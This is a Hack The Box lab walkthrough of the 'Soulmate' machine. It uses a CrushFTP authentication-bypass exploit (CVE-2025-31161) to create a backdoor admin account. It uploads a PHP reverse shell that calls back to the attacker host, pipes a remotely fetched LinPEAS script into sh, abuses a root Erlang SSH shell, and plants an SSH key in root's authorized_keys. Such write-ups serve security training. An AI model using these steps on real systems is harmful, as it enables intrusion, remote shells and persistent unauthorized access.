



## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
- [Foothold](#Foothold)
    - [CVE-2025-31161: CrushFTP Authentication Bypass](#CVE-2025-31161-CrushFTP-Authentication-Bypass)
- [Initial Access](#Initial-Access)
- [Enumeration (www-data)](#Enumeration-www-data)
- [Privilege Escalation to Ben](#Privilege-Escalation-to-Ben)
- [User.txt](#Usertxt)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Erlang/OTP Misconfiguration Abuse](#ErlangOTP-Misconfiguration-Abuse)
- [root.txt](#roottxt)

## Summary

The box starts with `CVE-2025-31161` aka `CrushFTP Authentication Bypass` for the application of the same name running on a `Virtual Host (VHOST)` entry or so called `Subdomain` on port `80/TCP`.

This allows to `reset` the `password` for the user `ben` which has the capability to `upload` files to the `FTP Server`. By dropping a `PHP Reverse Shell` to the `web root` of the main `web application`, `Initial Access` can be achieved.

After getting `Foothold` was `www-data` user the `Privilege Escalation` to `ben` on the box requires to find his `plaintext password` inside a `configuration file` of `Erlang/OTP` within `/usr/local/lib`. The steps grants access to the `user.txt`.

For the last step to `root` a `misconfiguration` of `Erlang/OTP` needs to be abused. By logging in via `SSH` on port `2222/TCP` locally, it grants access to a  shell typical for `Erlang/OTP`. This allows to `execute commands` as `root`.

## Reconnaissance

### Port Scanning

As usual we started with our initial `port scan` using `Nmap` which showed that port `22/TCP` and port `80/TCP` were open for us to work with. On port `80/TCP` we found a `redirect` to `soulmate.htb` which we immediately added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.132.27 --min-rate 10000 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 21:02 CEST
Nmap scan report for 10.129.132.27
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,80 10.129.132.27
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 21:02 CEST
Nmap scan report for 10.129.132.27
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.14 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.132.27   soulmate.htb
```

### Enumeration of Port 80/TCP

We started with the investigation of the website running on port `80/TCP`. The web application offered us the option to `register` and to `login` but besides that we didn't find anything out of the ordinary or particularly useful.

- [http://soulmate.htb/](http://soulmate.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://soulmate.htb/
http://soulmate.htb/ [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[hello@soulmate.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.132.27], Script, Title[Soulmate - Find Your Perfect Match], nginx[1.18.0]
```


- [http://soulmate.htb/register.php](http://soulmate.htb/register.php)


### Subdomain Enumeration

Since we faced a `redirect` which indicated a `Virtual Host (VHOST)` configuration on the web server, we started looking for any additional `Subdomains`. And indeed after a few seconds we found `ftp.soulmate.htb` which we also added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.soulmate.htb" -u http://soulmate.htb/ --fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soulmate.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.soulmate.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 214ms]
:: Progress: [151265/151265] :: Job [1/1] :: 2857 req/sec :: Duration: [0:01:03] :: Errors: 0 ::
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.132.27   soulmate.htb
10.129.132.27   ftp.soulmate.htb
```

As next step we took a closer look at the newly found subdomain. It revealed the `login page` of `CrushFTP`.

- [http://ftp.soulmate.htb/](http://ftp.soulmate.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://ftp.soulmate.htb/                       
http://ftp.soulmate.htb/ [302 Found] Cookies[CrushAuth,currentAuth], Country[RESERVED][ZZ], CrushFTP, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[CrushAuth], IP[10.129.132.27], RedirectLocation[/WebInterface/login.html], nginx[1.18.0]
http://ftp.soulmate.htb/WebInterface/login.html [200 OK] Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.132.27], Script[module,text/javascript,text/javascript>const], Title[CrushFTP WebInterface], X-UA-Compatible[chrome=1], nginx[1.18.0]
```



Within the `page source` we found the `version` of `CrushFTP`.

-  [view-source:http://ftp.soulmate.htb/WebInterface/new-ui/reset.html](view-source:http://ftp.soulmate.htb/WebInterface/new-ui/reset.html)

| Version                     |
| --------------------------- |
| v=11.W.657-2025_03_08_07_52 |

## Foothold

### CVE-2025-31161: CrushFTP Authentication Bypass

A quick research brought up several vulnerabilities for the application but the most interesting one was the `Authentication Bypass`.

- [https://www.tenable.com/plugins/nessus/233965](https://www.tenable.com/plugins/nessus/233965)
- [https://www.fortra.com/security/emerging-threats/crushftp-authentication-bypass](https://www.fortra.com/security/emerging-threats/crushftp-authentication-bypass)
- [https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation](https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation)
The following `Proof of Concept (PoC)` exploit weaponized the `Authentication Bypass` and created a `backdoor admin user`.

- [https://github.com/Immersive-Labs-Sec/CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)

```shell
┌──(kali㉿kali)-[/media/…/Machines/Soulmate/files/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80                                         
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: AuthBypassAccount
   [*] Password: CorrectHorseBatteryStaple.
```

With the credentials of `AuthBypassAccount:CorrectHorseBatteryStaple` we were able to login to `CrushFTP`.



## Initial Access

We straight moved over to the `Admin` tab and into the `User Manager`. There we found a few `usernames`.



We started with `Ben` and `reset` his `password` in order to `login` as `Ben`.


| Username | Password                  |
| -------- | ------------------------- |
| ben      | CorrectHorseBatteryStaple |

To our surprise the user was allowed to `upload` any file without restriction.


So the idea for `Initial Access` was to place a `PHP Reverse Shell` right into the `web root` of the `web application`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Soulmate/files]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Soulmate/files]
└─$ tail php_reverse_shell.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.43', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```


And all what was left to do was to `access` the `URL` to `trigger` the `payload`.

- [http://soulmate.htb/php_reverse_shell.php](http://soulmate.htb/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.16.43] from (UNKNOWN) [10.129.132.27] 34056
SOCKET: Shell has connected! PID: 2136
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We stabilized our shell and moved on with the box.

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soulmate:~/soulmate.htb/public$ ^Z
zsh: suspended  nc -lnvp 9000
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9000

www-data@soulmate:~/soulmate.htb/public$ 
www-data@soulmate:~/soulmate.htb/public$ export XTERM=xterm
www-data@soulmate:~/soulmate.htb/public$
```

## Enumeration (www-data)

Since we dropped into a shell as `www-data` we needed to find additional `credentials` or at least a `password`. Therefore we performed our typical `Enumeration`.

Besides the user `ben` we couldn't find any other user. Therefore it was just the `Privilege Escalation` to `ben` and then directly to `root`.

```shell
www-data@soulmate:~/soulmate.htb/public$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
epmd:x:115:121::/run/epmd:/usr/sbin/nologin
ben:x:1000:1000:,,,:/home/ben:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

While we checked the locally available ports we noticed port `2222/TCP` and kept that in our minds for later.

```shell
www-data@soulmate:~/soulmate.htb/config$ ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                 
udp   UNCONN 0      0      127.0.0.53%lo:53         0.0.0.0:*                                                           
udp   UNCONN 0      0            0.0.0.0:68         0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:4369       0.0.0.0:*                                                           
tcp   LISTEN 0      128        127.0.0.1:39309      0.0.0.0:*                                                           
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                                           
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=1196,fd=8),("nginx",pid=1195,fd=8))
tcp   LISTEN 0      4096       127.0.0.1:8443       0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:35009      0.0.0.0:*                                                           
tcp   LISTEN 0      5          127.0.0.1:2222       0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:9090       0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:8080       0.0.0.0:*                                                           
tcp   LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*                                                           
tcp   LISTEN 0      128             [::]:22            [::]:*                                                           
tcp   LISTEN 0      511             [::]:80            [::]:*    users:(("nginx",pid=1196,fd=9),("nginx",pid=1195,fd=9))
tcp   LISTEN 0      4096           [::1]:4369          [::]:*
```

Typically we start looking around in the available web directory and so we did this time too but only found  hashes and passwords that were not reused or somehow useful in any other way.

```shell
www-data@soulmate:~/soulmate.htb/data$ strings soulmate.db 
SQLite format 3
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
Otableusersusers
CREATE TABLE users (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            username TEXT UNIQUE NOT NULL,
            password TEXT NOT NULL,
            is_admin INTEGER DEFAULT 0,
            name TEXT,
            bio TEXT,
            interests TEXT,
            phone TEXT,
            profile_pic TEXT,
            last_login DATETIME,
            created_at DATETIME DEFAULT CURRENT_TIMESTAMP
        ))
indexsqlite_autoindex_users_1users
33admin$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2Administrator2025-08-10 13:00:082025-08-10 12:59:39
        admin
users
```

```shell
www-data@soulmate:~/soulmate.htb/config$ cat config.php 
<--- CUT FOR BREVITY --->
        // Create default admin user if not exists
        $adminCheck = $this->pdo->prepare("SELECT COUNT(*) FROM users WHERE username = ?");
        $adminCheck->execute(['admin']);
        
        if ($adminCheck->fetchColumn() == 0) {
            $adminPassword = password_hash('Crush4dmin990', PASSWORD_DEFAULT);
            $adminInsert = $this->pdo->prepare("
                INSERT INTO users (username, password, is_admin, name) 
                VALUES (?, ?, 1, 'Administrator')
            ");
            $adminInsert->execute(['admin', $adminPassword]);
        }
    }
<--- CUT FOR BREVITY --->
```

## Privilege Escalation to Ben

However when we took a look into `/usr/local/lib` we found a directory called `erlang_login`. This folder contained two scripts. One was called `login.escript` and the second one was called `start.escript`.

```shell
www-data@soulmate:/usr/local/lib/erlang_login$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Aug 15 07:46 .
drwxr-xr-x 5 root root 4096 Aug 14 14:12 ..
-rwxr-xr-x 1 root root 1570 Aug 14 14:12 login.escript
-rwxr-xr-x 1 root root 1427 Aug 15 07:46 start.escript
```

And within the second script we found the `password` for the user `ben`.

```shell
www-data@soulmate:/usr/local/lib/erlang_login$ cat start.escript 
#!/usr/bin/env escript
%%! -sname ssh_runner

main(_) ->
    application:start(asn1),
    application:start(crypto),
    application:start(public_key),
    application:start(ssh),

    io:format("Starting SSH daemon with logging...~n"),

    case ssh:daemon(2222, [
        {ip, {127,0,0,1}},
        {system_dir, "/etc/ssh"},

        {user_dir_fun, fun(User) ->
            Dir = filename:join("/home", User),
            io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
            filename:join(Dir, ".ssh")
        end},

        {connectfun, fun(User, PeerAddr, Method) ->
            io:format("Auth success for user: ~p from ~p via ~p~n",
                      [User, PeerAddr, Method]),
            true
        end},

        {failfun, fun(User, PeerAddr, Reason) ->
            io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
                      [User, PeerAddr, Reason]),
            true
        end},

        {auth_methods, "publickey,password"},

        {user_passwords, [{"ben", "HouseH0ldings998"}]},
        {idle_time, infinity},
        {max_channels, 10},
        {max_sessions, 10},
        {parallel_login, true}
    ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
    end,

    receive
        stop -> ok
    end.
```

| Username | Password         |
| -------- | ---------------- |
| ben      | HouseH0ldings998 |

This allowed us to `switch` the `user context` to `ben` and to access the `user.txt`.

```shell
www-data@soulmate:/usr/local/lib/erlang_login$ su ben
Password: 
ben@soulmate:/usr/local/lib/erlang_login$
```

## User.txt

```shell
ben@soulmate:~$ cat user.txt 
78b9dbe285adddd21f39ebed4b12f386
```

## Privilege Escalation to root

### Erlang/OTP Misconfiguration Abuse

We gave `LinPEAS` a quick chance to shine and indeed it found an interesting process of `Erlang`.

```shell
ben@soulmate:~$ curl 10.10.16.43/linpeas.sh | sh
<--- CUT FOR BREVITY --->
root        1144  0.0  1.7 2252836 69388 ?       Ssl  20:17   0:03 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
<--- CUT FOR BREVITY --->
```

We remembered port `2222/TCP` and performed a simple connection to it using `nc` to confirm that `Erlang` was running on it.

```shell
ben@soulmate:~$ nc 127.0.0.1 2222
SSH-2.0-Erlang/5.2.9
```

We simply connected to it via `SSH` with our current user `ben` and got dropped into a shell specific to `Erlang`.

```shell
ben@soulmate:~$ ssh -p 2222 ben@localhost
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:2222' (ED25519) to the list of known hosts.
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

And with the `os:cmd("")` command we were able to execute system commands. The output of `id` showed what we previously saw in the output of LinPEAS.

```shell
(ssh_runner@soulmate)2> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

We added our `SSH Key` to the `authorized_keys` file of `root` and grabbed the `root.txt`.

```shell
(ssh_runner@soulmate)6> os:cmd("echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGk6KVVXiGXxGP51sZBxIdgKFLi9wO46TpY/szJC3HIU' > /root/.ssh/authorized_keys").
[]
```

```shell
┌──(kali㉿kali)-[~]
└─$ ssh root@soulmate.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-153-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Sep  6 10:04:32 PM UTC 2025

  System load:  0.0               Processes:             256
  Usage of /:   75.9% of 8.76GB   Users logged in:       1
  Memory usage: 24%               IPv4 address for eth0: 10.129.132.27
  Swap usage:   0%

  => There is 1 zombie process.

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Sep 6 22:04:33 2025 from 10.10.16.43
root@soulmate:~#
```

## root.txt

```shell
root@soulmate:~# cat root.txt 
d39f86c216f36b58796a74545f60431c
```
